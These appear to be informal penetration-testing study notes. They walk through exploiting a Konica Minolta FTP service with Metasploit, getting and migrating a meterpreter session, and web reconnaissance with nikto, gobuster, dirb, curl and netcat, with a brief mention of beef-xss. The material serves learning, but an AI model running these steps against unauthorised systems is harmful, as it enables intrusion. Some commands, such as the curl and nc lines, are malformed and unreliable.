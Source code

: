 # msfconsole
- we can type msfconsole in the terminal but to start with the database running type ```msfdb run```
- ```db_nmap 192.168.1.242 -A``` - conducts a general sV sC scan
- ```search konica minolta```(Port 21 was open with konica)
- use 2
- choose a Payload or provide for hosts if autochosen
- ```show targets```
- ```set rhosts 192.168.1.242```
- ```run j```
- ```sessions```
- ```sessions 1```
-  OR directly write ```exploit``` to get into meterpreter
` ```sysinfo```/ pay heed to the architecture and the meterpreter , if both are different then change the meterpreter to the same as Architecture
``` ps```
pick a process of desired architecture and migrate to it
- ``` migrate 8104```
- Use metasploit as per requirements but dont rely on it completely because it may hinder deep learning
# Web App PenTesting
- nmap scan
- wappalyzer for planning attack
- nikto  ``` nikto -h<target> -p<port>```
- directory brute forcing using hydra and enumeration of directories using gobuster
- fastest scanner ```dirb http://target```   
- Dirbuster GUI
- we can use curl command to view the page source
- ```curl -v http://121093029323/images```
- we wont get it bcz we r using http 1.1 , we need to downgrade to 1.0
- use netcat ```nc -v 192.168.1.52.80 \n GET / HTTP/1.0```
- 



















# beef-xss -- client side browser exploitation
#sudo su - switch user
#passwd root - change root password
# Linux File System
- root - for root user
- home - user names
- etc - pass word shadow files
- bin / sbin- binaries
- var - web files
- usr - binaries
# We can also use net cat to scan IPs
- nc -nv -w 1 -z 12.12.1.2 1-1000
- nv for verbosity'
-  w1 timeout to 1 sec
-  z port to scan
# -sT flag of nmap to do a three way handshake with any port (-p 23)
### Under Progress
